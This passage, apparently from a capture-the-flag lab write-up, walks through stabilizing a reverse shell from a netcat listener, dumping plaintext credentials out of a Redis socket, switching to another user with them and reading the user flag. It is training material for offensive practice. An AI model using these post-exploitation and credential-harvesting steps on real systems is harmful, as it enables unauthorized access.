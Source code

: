 ## Horizontal Privilege Escalation

Let's stabilize the shell.

```
www-data@format:~$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@format:~$ ^Z
[1]+  Stopped                 nc -nvlp 9001

❯ stty raw -echo;fg;reset
nc -nvlp 9001

www-data@format:~$ export TERM=xterm
www-data@format:~$ stty rows 20 columns 189
```

Let's take a look at the Redis database, there should be some useful information. We can use `redis-cli` to connect to the UNIX socket by specifying `-s`

```bash
redis-cli -s /var/run/redis/redis.sock
```

Let's check the keys with `KEYS *` and dump all the value from the specific key with `HGETALL key`.

```
redis /var/run/redis/redis.sock> KEYS *
1) "cooper.dooper:sites"
2) "cooper.dooper"
redis /var/run/redis/redis.sock> HGETALL cooper.dooper
 1) "username"
 2) "cooper.dooper"
 3) "password"
 4) "zooperdoopercooper"
 5) "first-name"
 6) "Cooper"
 7) "last-name"
 8) "Dooper"
 9) "pro"
10) "false"
```

I've obtained a password, let's use it to switch to the user `cooper`.

```
www-data@format:~$ su - cooper
Password: 
cooper@format:~$ 
```

Indeed, we can use this password to switch to the user `cooper` and now we can retrieve the user flag.

```
cooper@format:~$ cat user.txt 
b13339██████████████████████████
```
